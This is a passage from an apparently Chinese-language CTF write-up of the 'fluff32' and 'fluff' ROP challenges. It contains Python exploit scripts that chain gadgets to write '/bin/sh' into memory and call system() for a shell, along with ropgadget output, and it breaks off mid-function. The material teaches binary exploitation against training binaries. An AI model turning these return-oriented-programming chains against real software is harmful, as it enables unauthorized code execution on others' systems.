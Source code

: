 ```python
    payload += "BBBB"
    payload += l32(pop_ebx)
    payload += data
    payload += l32(xor_edx_ebx)
    payload += "BBBB"

    # edx -> [ecx]
    payload += l32(mov_ecx_edx)
    payload += "BBBB"
    payload += l32(0)

    return payload

payload  = "A"*44

payload += write_data("/bin", data_addr)
payload += write_data("/sh\x00", data_addr + 4)

payload += l32(system_plt)
payload += "BBBB"
payload += l32(data_addr)

io = zio('./fluff32')
io.writeline(payload)
io.interact()
```

### fluff

提示：在使用 ropgadget 搜索时加上参数 `--depth` 可以得到更大长度的 gadgets。

```text
$ ropgadget --binary fluff --only "mov|pop|ret|xor|xchg" --depth 20
...
0x0000000000400832 : pop r12 ; mov r13d, 0x604060 ; ret
0x000000000040084c : pop r15 ; mov qword ptr [r10], r11 ; pop r13 ; pop r12 ; xor byte ptr [r10], r12b ; ret
0x0000000000400840 : xchg r11, r10 ; pop r15 ; mov r11d, 0x602050 ; ret
0x0000000000400822 : xor r11, r11 ; pop r14 ; mov edi, 0x601050 ; ret
0x000000000040082f : xor r11, r12 ; pop r12 ; mov r13d, 0x604060 ; ret
```

```python
from pwn import *

system_plt = 0x004005e0
data_addr  = 0x0000000000601050

xor_r11_r11 = 0x0000000000400822
xor_r11_r12 = 0x000000000040082f
xchg_r11_r10 = 0x0000000000400840
mov_r10_r11 = 0x000000000040084c
pop_r12 = 0x0000000000400832

def write_data(data, addr):
    # addr -> r10
    payload  = p64(xor_r11_r11)
    payload += "BBBBBBBB"
    payload += p64(pop_r12)
    payload += p64(addr)
    payload += p64(xor_r11_r12)
    payload += "BBBBBBBB"
    payload += p64(xchg_r11_r10)
    payload += "BBBBBBBB"

```